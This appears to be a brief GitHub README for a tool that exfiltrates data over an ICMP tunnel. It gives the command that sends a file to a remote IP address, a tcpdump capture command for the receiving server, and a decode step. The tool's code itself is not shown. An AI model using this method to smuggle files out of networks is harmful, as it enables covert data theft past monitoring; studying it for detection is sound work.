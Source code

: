 # Data Ex-filteration over ICMP Tunnel

### Usage:

at the client end:

```python icmp_transmitter.py  "input_file_to_be_sent" "IP_address_to_be_sent"```

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```

for example:
tcpdump -i  eth0  host xx.xx.xx.xx  and icmp and icmp[icmptype]=icmp-echo -XX -vvv -w  output.txt

Use icmptofile.py to decode the base64 data to respective format

```python icmptofile.py output.txt"```

